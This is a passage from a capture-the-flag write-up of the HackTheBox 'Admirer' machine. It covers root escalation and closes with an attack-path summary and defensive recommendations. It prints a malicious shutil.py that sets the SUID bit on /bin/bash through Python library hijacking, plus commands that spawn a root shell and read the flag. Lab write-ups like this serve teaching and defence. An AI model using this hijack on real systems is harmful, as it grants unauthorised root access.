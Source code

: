 The script internally calls `backup.py`, let´s see the code:

![Backup.py content](GitHubv2/HackTheBox/EASY/Admirer/screenshots/cat_backup.png)

Inspecting `backup.py`, we see it imports the **`shutil`** library and uses the function `make_archive` so this opens the possibility of **Python library hijacking**.

### 4.2 Python Library Hijacking

We create a malicious `shutil.py`:

```python
import os
os.system("chmod u+s /bin/bash") 
```

Place it in `/tmp`, then execute the vulnerable backup process.  
Now `/bin/bash` has the SUID bit set:

```bash
ls -l /bin/bash
```

![Root permissions on bash](GitHubv2/HackTheBox/EASY/Admirer/screenshots/root_permissions.png)

Spawn a root shell:

```bash
bash -p
whoami
cd /root/
cat root.txt
```

![Root flag](GitHubv2/HackTheBox/EASY/Admirer/screenshots/root_flag.png)

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Directory Fuzzing** → Discovered sensitive files (`contacts.txt`, `credentials.txt`).  
2. **FTP Access** → Retrieved internal files and database credentials.  
3. **Adminer Exploitation** → Used a misconfiguration to extract further credentials.  
4. **SSH Access** → Logged in as `waldo`.  
5. **Python Hijack** → Escalated to root via malicious `shutil.py`.  

---
## Defensive Recommendations

- Restrict access to sensitive web directories.  
- Do not store plaintext credentials in web-exposed files.  
- Update or disable vulnerable tools like **Adminer**.  
- Run periodic audits for unnecessary scripts in `/opt`.  
- Enforce least privilege and disable SUID where not required.  
